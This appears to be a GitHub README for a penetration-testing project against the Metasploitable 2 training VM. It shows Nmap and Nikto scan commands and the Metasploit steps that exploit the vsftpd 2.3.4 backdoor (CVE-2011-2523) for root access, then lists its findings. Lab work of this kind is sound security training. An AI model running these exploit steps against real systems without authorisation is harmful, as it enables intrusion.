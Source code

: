 # 🛡️ Metasploitable 2 – Vulnerability Assessment & Penetration Testing (VAPT)

This project demonstrates a **full penetration testing workflow** on Metasploitable 2, a deliberately vulnerable VM.  
The goal was to simulate a real-world **Vulnerability Assessment and Penetration Test (VAPT)** and produce a consultancy-style report.

---

## 🔹 Project Roadmap

![Project Roadmap](assets/roadmap_infographic.png)

---

## 🔹 Steps Performed

### 1️⃣ Reconnaissance (Nmap)
- Scanned target IP for open ports and services
```bash
nmap -sV <target-ip> -oN nmap_scan.txt
```

### 2️⃣ Vulnerability Scanning
- Nmap vulnerability scripts
```bash
nmap -sV --script vuln <target-ip> -oN vuln_results.txt
```
- Nikto web scan
```bash
nikto -h http://<target-ip> -output nikto_results.txt
```

### 3️⃣ Exploitation (Metasploit)
- Exploited **vsftpd 2.3.4 backdoor (CVE-2011-2523)**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target-ip>
run
```
- Verified root access with:
```bash
whoami
```

### 4️⃣ Reporting
- Documented findings, CVEs, and remediation
- Delivered a **professional consultancy-style report (PDF)**

---

## 🔹 Deliverables

📄 [Full Report (PDF)](report/Metasploitable2_Pentest_Report_Final.pdf)  
🖼️ [Roadmap Infographic](assets/roadmap_infographic.png)  
📸 [Proof Screenshots](screenshots)  

---

## 🔹 Tools Used
- Kali Linux  
- Nmap  
- Nikto  
- Metasploit Framework  

---

## 🔹 Key Findings
- **Critical:** FTP backdoor (vsftpd 2.3.4 – CVE-2011-2523) → Remote root access  
- **High:** Outdated Apache 2.2.8 & PHP 5.2.4  
- **Medium:** Missing HTTP security headers  

---

## 🔹 Author
👤 **Gufran Ahmed**  
🔗 [LinkedIn](https://www.linkedin.com/in/gufran-uh/)
